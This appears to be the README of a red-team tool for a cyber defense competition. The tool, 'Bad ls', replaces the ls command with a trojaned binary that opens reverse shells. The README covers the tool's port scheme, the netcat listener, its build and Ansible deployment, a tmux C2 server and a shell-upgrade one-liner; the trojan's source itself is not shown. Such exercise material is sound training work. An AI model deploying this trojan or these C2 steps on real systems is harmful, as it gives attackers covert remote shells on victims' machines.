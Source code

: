 # CDT 2025 Red Team tool
## Bad ls
Red team tool that will give the entire 10.0.20.0/24 red team subnet a reverse shell if the red team box is listening on the correct port

Reverse shells will be initiated on every blue team execution of the "ls" command

The port number the reverse shell will connect to will be
```py
(10000,20000,30000 depending on blue team number + last octet of target ip address)
```
If the target machine belongs to a 192.168.x.x (cloud boxes in this competition), then add 500 to the port number

So, for example, we want to connect to 10.0.3.5, the port number will be `30005`

## Starting listener
Port number is subject to change
```bash
nc -nvlp 30005
```

## Building and deploying

Note: build executable on debian bookworm instance

Install libpython3.11
```bash
apt install libpython3.11
```

In the venv, install requirements
```bash
pip install -r requirements.txt
```

Build python script into linux binary
```bash
./convert_to_linux_binary.sh
```

Configure `ansible/inventory.ini` to match target(s), then deploy
```bash
ansible-playbook deploy_tools.yml
```

## Command and Control (C2)
To open a port on every recievable port for this competition, execute
```bash
python3 c2.py
```
To open a session, use 
```bash
tmux attach -t c2_t1_10002
```
Where t1 = team number (1,2,3) and 10002 represents the port. To detach from tmux session, use
```
CTRL + B, D
```

In the instance where all tmux sessions need to be killed, run
```bash
tmux kill-server
```

## Upgrading reverse shell to fully interactive tty
Execute this after recieving a netcat connection
Useful for being able to use sudo, etc. 
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

# Project structure
- `ansible/` all ansible deployment scripts, inventory, and configuration
- `dist/` where pyinstaller builds the linux binary
- `bad_ls.py` source code for bad_ls binary
- `c2.py` python c2 server that works through spawning numerous tmux sessions with netcat listeners
- `convert_to_linux_binary.sh` build script for `bad_ls.py`
- `move_to_debian.sh` script used to manually transfer binaries to target during development
- `requirements.txt` python dependencies for `bad_ls.py`

> Author: Daniel Wolosiuk

Oct 17, 2025

